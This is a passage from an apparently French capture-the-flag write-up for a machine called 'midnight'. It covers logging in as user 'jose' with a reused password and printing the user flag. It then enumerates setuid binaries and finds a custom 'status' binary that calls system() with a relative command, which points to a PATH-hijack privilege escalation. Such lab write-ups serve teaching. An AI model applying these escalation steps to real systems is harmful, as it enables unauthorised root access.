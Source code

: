 Ce mot de passe correspond aussi au compte `jose` du système. Il nous permet d'accéder au premier flag :

```console
jose@midnight:~$ cat user.txt 
956a9564aa5632edca7b745c696f6575
```

## Edith de Path

L'utilisateur n'ayant pas de permissions `sudo`, je fouille sur le système et trouve un binaire setuid inhabituel nommé `status` :

```console
jose@midnight:~$ find / -type f -perm -u+s -ls 2> /dev/null 
   134749     64 -rwsr-xr-x   1 root     root        63568 Jan 10  2019 /usr/bin/su
   152548    156 -rwsr-xr-x   1 root     root       157192 Feb  2  2020 /usr/bin/sudo
   275266     20 -rwsr-sr-x   1 root     root        16768 Jul 18  2020 /usr/bin/status
   131131     56 -rwsr-xr-x   1 root     root        54096 Jul 27  2018 /usr/bin/chfn
   131136     64 -rwsr-xr-x   1 root     root        63736 Jul 27  2018 /usr/bin/passwd
   131132     44 -rwsr-xr-x   1 root     root        44528 Jul 27  2018 /usr/bin/chsh
   135085     36 -rwsr-xr-x   1 root     root        34888 Jan 10  2019 /usr/bin/umount
   134602     44 -rwsr-xr-x   1 root     root        44440 Jul 27  2018 /usr/bin/newgrp
   135083     52 -rwsr-xr-x   1 root     root        51280 Jan 10  2019 /usr/bin/mount
   131134     84 -rwsr-xr-x   1 root     root        84016 Jul 27  2018 /usr/bin/gpasswd
   268427     12 -rwsr-xr-x   1 root     root        10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
   143469     52 -rwsr-xr--   1 root     messagebus    51184 Jun  9  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   146860    428 -rwsr-xr-x   1 root     root         436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
```

Un `strings` sur cet exécutable laisse supposer qu'il se charge juste d'appeler `service ssh status` avec la fonction `system()` :

```
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
printf
system
__cxa_finalize
setgid
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u/UH
[]A\A]A^A_
Status of the SSH server:
service ssh status
```
